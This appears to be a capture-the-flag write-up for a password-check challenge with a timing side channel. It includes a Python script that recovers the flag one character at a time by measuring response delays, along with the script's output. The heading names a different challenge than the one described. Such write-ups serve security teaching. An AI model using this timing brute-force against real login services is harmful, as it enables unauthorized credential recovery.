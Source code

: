 ## Avatar Uploader 1
### Category : Misc

---

```
Storing passwords on my own server seemed unsafe, so I stored it on a seperate one instead. However, the connection between them is very slow and I have no idea why.

```

So, we are given a link, which asks for a password, and the real password apparently is stored somewhere on a separate server. As I first try to login, I try `password` as password, and obviously, I get a `Incorrect Password`. The Problem Statement, states the output as slow, but I received this pretty quickly. So, next I try to input `hsctf{}`, and this one took some sweet time. So, maybe the validation takes some time?

I write a small script to test out the times, and it turns out as near we get to the flag, the more time it takes. Exactly, 0.5 second more per flag.


To exploit this, I write a script

`exploit.py`
```
import requests
import time
import string

def timediff(flag):
    url = "https://networked-password.web.chal.hsctf.com/"
    data={"password":flag}
    a=time.time()
    r = requests.post(url,data=data)
    b=time.time()
    return (b-a)


charlist = string.printable

if __name__ == "__main__":
    flag="h"
    curr_time_diff=timediff(flag)
    while True:
        for i in charlist:
            timee = timediff(flag+i)
            if(timee-curr_time_diff>0.4):
                flag = flag+i
                print("=> {}".format(flag))
                curr_time_diff = timee
                break 
            else:
                print(flag+i,end="\r")
```

output

```
vipul@ubuntu:~/Noti-fyre$ python3 exploit.py                
=> hs
=> hsc
=> hsct
=> hsctf
=> hsctf{
=> hsctf{s
=> hsctf{sm
=> hsctf{sm0
=> hsctf{sm0l
=> hsctf{sm0l_
=> hsctf{sm0l_f
=> hsctf{sm0l_fl
=> hsctf{sm0l_fl4
=> hsctf{sm0l_fl4g
=> hsctf{sm0l_fl4g}

```
Luckily the flag was small enough to be found in some sane unit of time.